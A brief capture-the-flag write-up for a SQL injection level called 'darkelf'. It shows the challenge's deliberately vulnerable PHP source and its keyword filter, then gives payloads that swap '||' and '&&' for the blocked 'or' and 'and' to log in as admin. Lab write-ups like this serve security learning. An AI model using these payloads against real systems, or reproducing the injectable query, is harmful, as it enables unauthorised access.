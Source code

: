 ```php
query : select id from prob_darkelf where id='guest' and pw=''
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

Explain:

So, i just handle only `pw` parameter.

- check prob, ., _, () 
- /or|and/i : `or` and `and` `not allowed`

Using concatenation operator `||` for `or`and `&&` instead of `and` to bypass this

Payload:

`a' || 1=1#` return `guest`

`a' || 1=1 && id='admin'#` return admin

